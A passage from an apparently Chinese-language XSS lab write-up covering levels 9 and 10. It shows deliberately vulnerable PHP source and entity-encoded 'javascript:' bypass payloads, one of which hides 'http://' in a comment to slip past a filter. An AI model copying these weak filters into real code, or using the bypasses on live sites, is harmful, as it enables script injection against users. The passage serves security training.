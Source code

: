 ```
javascri&#112;t:alert()
```

## Level 9:

```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://')) //如果str7中没有http：//
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';  //则报错
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>'; 
}
?>
<center><img src=level9.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
```

那么我们可以构造payload：

```
javascri&#x0070;t:alert(1)/*http://www.baidu.com*/
```

只要让程序检测到http://但不让这个生效即可，可以采用注释的方法构造payload。



## Level 10：

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
